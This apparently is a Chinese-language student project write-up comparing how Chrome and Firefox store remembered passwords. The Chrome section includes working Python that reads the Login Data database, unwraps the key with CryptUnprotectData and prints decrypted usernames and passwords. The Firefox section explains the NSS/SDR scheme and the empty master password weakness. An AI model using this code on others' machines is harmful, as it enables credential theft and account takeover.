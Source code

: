 ### *Project18：比较Firefox和Chrome的记住密码插件的实现区别

####  Chrome记住密码实现

在windows系统中，Chrome中保存的密码先被二次加密，然后被保存在SQLite数据库文件中，位置如下：
> AppData\Local\Google\Chrome\User Data\ Local State

使用工具SQLiteStudio读取数据库文件：

![](https://img1.imgtp.com/2023/07/13/sKf7doz2.png)

可进一步查看加密后的密码16进制：

![](https://img1.imgtp.com/2023/07/13/QRDK7YD0.png)

编写脚本将此数据导出：

```python
from os import getenv
import sqlite3
import binascii
conn = sqlite3.connect(getenv("LOCALAPPDATA") + r"\Google\Chrome\User Data\Default\Login Data")
cursor = conn.cursor()
cursor.execute('SELECT action_url, username_value, password_value FROM logins')
for result in cursor.fetchall():
    print (binascii.b2a_hex(result[2]))
```



参考Chromium开源代码，找到Chrome做二次加密的方法： 通过Windows API CryptProtectData()实现。

参考https://msdn.microsoft.com/en-us/library/windows/desktop/aa380261(v=vs.85).aspx获得关键信息：

**对应解密函数为CryptUnprotectData**

参考地址：https://msdn.microsoft.com/en-us/library/windows/desktop/aa380882(v=vs.85).aspx获得信息

**只有与加密数据的用户具有相同登录凭据的用户才能解密数据**

也就是说，只能在当前用户的凭据下解密数据，即Chrome使用windows账户密钥去加密chrome口令并存储在本地，所以只要登录了windows账户即可通过解密获取Chrome保存的各种口令。

通过查阅资料可知chrome将用户密钥存储在：

> AppData\Local\Google\Chrome\User Data\ Local State

加密密钥是通过 Base64 编码进行存储的,通过访问Local State文件并进行解密即可获得密钥：

```python
local_state = os.environ['LOCALAPPDATA'] + r'\Google\Chrome\User Data\Local State'
def getkey():
    with open(local_state, 'r', encoding='utf-8') as f:
        base64_encrypted_key = json.load(f)['os_crypt']['encrypted_key']
    encrypted_key = base64.b64decode(base64_encrypted_key)
    key= win32crypt.CryptUnprotectData(encrypted_key[5:], None, None, None, 0)[1]
    return key
```

对文本进行解密：

```python
def decrypt(key, text, salt=None):
    nonce, cipher_bytes = text[3:15], text[15:]
    aes_gcm = AESGCM(key)
    return aes_gcm.decrypt(nonce, cipher_bytes, salt).decode('utf-8')
```

获取账户和口令：

```python
def getpassword(key):
    conn = sqlite3.connect(getenv("LOCALAPPDATA") + r"\Google\Chrome\User Data\Default\Login Data")
    cursor = conn.cursor()
    cursor.execute('SELECT action_url, username_value, password_value FROM logins')
    for result in cursor.fetchall():
        # print (binascii.b2a_hex(result[2]))
        print("账号：",result[1])
        password = decrypt(key, result[2])
        print("密码：",password)
```

![](https://img1.imgtp.com/2023/07/13/q12B9pRc.png)

#### FireFox记住密码

为满足开发者创建满足各种安全标准的应用程序，Mozilla开发了一个叫做“Network Security Services”,或叫NSS的开源库。Firefox使用其中一个叫做”Security Decoder Ring”，或叫SDR的API来帮助实现账号证书的加密和解密函数。firefox使用它完成加密:

当一个Firefox配置文件被首次创建时，一个叫做SDR的随机key和一个Salt(译者注：Salt，在密码学中，是指通过在密码任意固定位置插入特定的字符串，让散列后的结果和使用原始密码的散列结果不相符，这种过程称之为“加盐”)就会被创建并存储在一个名为“key3.db”的文件中。利用这个key和盐，使用3DES加密算法来加密用户名和密码。密文是Base64编码的，并存储在一个叫做signons.sqlite的sqlite数据库中。Signons.sqlite和key3.db文件均位于%APPDATA%\Mozilla\Firefox\Profiles\[random_profile]目录。

所以我们要做的就是得到SDR密钥。正如此处解释的，这个key被保存在一个叫PCKS#11软件“令牌”的容器中。该令牌被封装进入内部编号为PKCS#11的“槽位”中。因此需要访问该槽位来破译账户证书。

还有一个问题，这个SDR也是用3DES(DES-EDE-CBC)算法加密的。解密密钥是Mozilla叫做“主密码”的hash值，以及一个位于key3.db文件中对应的叫做“全局盐”的值。

Firefox用户可以在浏览器的设置中设定主密码，但关键是好多用户不知道这个特性。正如我们看到的，用户整个账号证书的完整性链条依赖于安全设置中选择的密码，它是攻击者唯一不知道的值。如果用户使用一个强健的主密码，那么攻击者想要恢复存储的证书是不太可能的。

那么——如果用户没有设置主密码，空密码就会被使用。这意味着攻击者可以提取全局盐，获得它与空密码做hash运算结果，然后使用该结果破译SDR密钥。再用破译的SDR密钥危害用户证书。

该过程看起来就是这样：

![](https://image.woshipm.com/wp-files/2013/07/2f5442265b1f3d8c4ef0a71f1c51d9c1.jpg)

负责证书解密的主要函数是PK11SDR_Decrypt。此处不再展示整个函数，仅分别列出如下被调用的函数：

```python
PK11_GetInternalKeySlot() //得到内部key槽

PK11_Authenticate() //使用主密码对slot鉴权

PK11_FindFixedKey() //从slot中获得SDR密钥

Pk11_Decrypt() //使用SDR密钥破译Base64编码的数据
```

至于破译密码的示例代码，过程有点复杂，此处就不再累述了。在github上可以找到相关开源项目

> https://github.com/lclevy/firepwd/blob/master/firepwd.py

#### 比较

相比于chrome浏览器，firefox记住密码功能实现更复杂，安全性更高

#### 参考：https://www.woshipm.com/pmd/35985.html
